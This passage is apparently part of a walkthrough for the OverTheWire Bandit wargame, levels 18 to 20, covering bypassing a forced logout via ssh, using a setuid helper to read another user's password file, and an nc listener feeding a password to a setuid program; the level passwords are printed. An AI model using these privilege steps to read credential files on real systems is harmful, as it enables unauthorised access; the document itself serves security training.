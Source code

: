 ```

bandit18@bandit.labs.overthewire.org's password: 
IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
```
Alternatively, if we required a full shell on the host, we can alter the command to launch `bash` without loading `.bashrc`, however, we will not have the regular prompt.
```
❯ ssh -p 2220 bandit18@bandit.labs.overthewire.org "/bin/bash -norc"
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit18@bandit.labs.overthewire.org's password: 
uname -a; whoami
Linux bandit.otw.local 5.4.8 #1 SMP Sun May 3 12:31:45 UTC 2020 x86_64 GNU/Linux
bandit18
cat readme
IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
```

## Level 19
We have a `suid` binary in our home directory. Executing it with no arguments reveals it will run a command as a different user.
```
bandit19@bandit:~$ ls -l
total 8
-rwsr-x--- 1 bandit20 bandit19 7296 May  7  2020 bandit20-do
bandit19@bandit:~$ ./bandit20-do 
Run a command as another user.
  Example: ./bandit20-do id
```
When we execute `bandit20-do`, it explains that it will run a command as another user. When we try the example given, it shows that `id` is ran as `bandit20`.
```
bandit19@bandit:~$ ./bandit20-do id
uid=11019(bandit19) gid=11019(bandit19) euid=11020(bandit20) groups=11019(bandit19)
```
With this in mind, we can use `bandit20-do` to grab the password from `/etc/bandit_pass/bandit20`.
```
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/bandit20
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
```

## Level 20
We are provided with another `suid` binary. This time, the application will connect to a port we specify on the host. It will read the incomming data, and if it matches `bandit20`'s password, will provide the next password. We can set up a `nc` listener that will send the password when the binary connects.
```
bandit20@bandit:~$ ls -l
total 12
-rwsr-x--- 1 bandit21 bandit20 12088 May  7  2020 suconnect
bandit20@bandit:~$ echo "GbKksEFF4yrVs6il55v6gwY5aVje5f0j" | nc -lvnp 9001 &
[1] 5383
bandit20@bandit:~$ listening on [any] 9001 ...

bandit20@bandit:~$ ./suconnect 9001
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 51260
Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
Password matches, sending next password
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
```
